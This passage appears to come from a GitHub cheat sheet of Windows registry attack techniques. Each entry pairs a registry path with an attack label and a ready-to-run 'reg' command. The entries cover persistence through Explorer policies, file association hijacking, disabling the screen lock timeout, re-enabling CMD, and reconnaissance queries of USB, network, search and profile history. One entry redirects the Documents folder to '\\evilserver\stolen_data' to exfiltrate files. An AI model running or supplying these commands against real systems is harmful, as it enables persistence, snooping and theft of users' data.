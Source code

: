 ### User-Level Persistence via Explorer Policies
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
**Attacks:** User Persistence, Restricting Access  
**Codes:** `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDesktop /t REG_DWORD /d 1`

### Network Profiles Access
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Profiles`  
**Attacks:** Gathering Network Information  
**Codes:** `reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Profiles`

### File Extension Actions Manipulation
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts`  
**Attacks:** File Association Hijacking  
**Codes:** `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts\.txt /v Progid /t REG_SZ /d "evilprogid"`

### Search Assistant History Access
**Registry Path:** `HKCU\Software\Microsoft\Search Assistant\ACMru`  
**Attacks:** Gathering Search Queries  
**Codes:** `reg query HKCU\Software\Microsoft\Search Assistant\ACMru`

### USB Device History Access
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Enum\USB`  
**Attacks:** Gathering USB Connection History  
**Codes:** `reg query HKLM\SYSTEM\CurrentControlSet\Enum\USB`

### User Profile Paths Access
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList`  
**Attacks:** Gathering User Profile Information  
**Codes:** `reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList`

### Desktop Settings Manipulation
**Registry Path:** `HKCU\Control Panel\Desktop`  
**Attacks:** User Experience Manipulation, Screen Lock Bypass  
**Codes:** `reg add HKCU\Control Panel\Desktop /v ScreenSaveTimeOut /t REG_SZ /d "0"`

### User-Specific Folder Redirection
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders`  
**Attacks:** Data Theft, Folder Redirection  
**Codes:** `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders /v Personal /t REG_SZ /d "\\evilserver\stolen_data"`

### Group Policy Settings Manipulation
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy`  
**Attacks:** Policy Manipulation, System Behavior Alteration  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy /v DisableCMD /t REG_DWORD /d 0`
